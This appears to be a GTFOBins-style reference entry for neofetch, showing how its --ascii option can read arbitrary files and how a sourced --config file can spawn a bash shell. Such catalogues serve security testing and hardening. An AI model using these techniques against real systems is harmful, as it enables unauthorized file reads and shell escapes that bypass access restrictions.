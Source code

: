 ```yaml
---
description: This programm is used to display some system info along with a chosen image in a terminal window.
functions:
  file-read:
    - description: The file content is used as the logo while some other information is displayed on its right, thus it might not be suitable to read arbitray binary files.
      code: |
        LFILE=file_to_read
        neofetch --ascii $LFILE

  command:
    - description: The programm innerly reads its config file from a predefined path or from a file specified by an option. Then it does `CONFIG_FILE=/path/to/config.conf source $CONFIG_FILE`. So, it's possible to execute arbitrary commands if the contents of the config file is controlled by an attacker.
      code: |
        echo 'bash' > config.conf # desired command
				CONFIG_FILE=config.conf
        neofetch --config $CONFIG_FILE
---
```

